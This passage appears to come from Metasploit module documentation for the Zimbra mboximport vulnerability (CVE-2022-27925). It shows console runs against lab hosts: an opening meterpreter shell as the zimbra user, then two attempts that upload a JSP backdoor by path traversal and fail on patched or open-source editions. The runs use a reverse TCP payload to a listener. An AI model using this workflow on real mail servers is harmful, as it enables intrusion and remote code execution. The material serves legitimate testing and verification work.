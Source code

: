 ```
meterpreter > getuid
Server username: zimbra

meterpreter > shell
Process 121849 created.
Channel 1 created.
/opt/zimbra/bin/zmcontrol -v
Release 8.8.12.GA.3794.UBUNTU18.64 UBUNTU18_64 NETWORK edition, Patch 8.8.12_P6.
```

### Zimbra Collaboration Suite Network Edition 8.8.15 Patch 33 on Ubuntu 18.04

Note: This version is not vulnerable, because the issue is patched

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.167
RHOSTS => 10.0.0.167
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

### Zimbra Collaboration Suite Open Source Edition Patch 8.8.12 Patch 6 on Ubuntu 18.04

Note: This version is not vulnerable, the open source edition doesn't have the correct path.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/cualvccyq.jsp
[*] Sending POST request with ZIP file
[-] Exploit aborted due to failure: not-found: The target path was not found, target is probably not vulnerable
[*] Exploit completed, but no session was created.
```

